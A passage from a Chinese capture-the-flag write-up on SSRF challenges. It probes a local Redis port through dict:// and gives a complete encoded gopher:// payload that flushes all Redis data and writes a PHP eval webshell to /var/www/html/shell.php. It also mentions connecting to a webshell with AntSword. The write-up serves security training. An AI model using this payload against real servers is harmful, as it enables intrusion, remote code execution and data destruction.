 然后进行传递



<img src="https://i-blog.csdnimg.cn/blog_migrate/964bc9188d7a5e4c157eb1245c60fcf2.png" alt="" style="max-height:706px; box-sizing:content-box;" />


然后通过蚁剑链接即可

## web360

找不到 flag.php

我们开始通过 dict 探测端口

```cobol
url=dict://127.0.0.1:80
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/7dffae7fde9b36330043d62c2ca1c971.png" alt="" style="max-height:205px; box-sizing:content-box;" />


发现开放了 6379端口 这里是redis的端口 这里很明显就是让我们攻击了

我们一样去 工具实现攻击



<img src="https://i-blog.csdnimg.cn/blog_migrate/fe88278e9d3e903d19d9aa8f0991a590.png" alt="" style="max-height:274px; box-sizing:content-box;" />


```cobol
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252431%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2540%2524_POST%255Bcmd%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A/var/www/html%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```



总的来说 show的ssrf 还挺简单的 这里学到了 sudo.cc的内容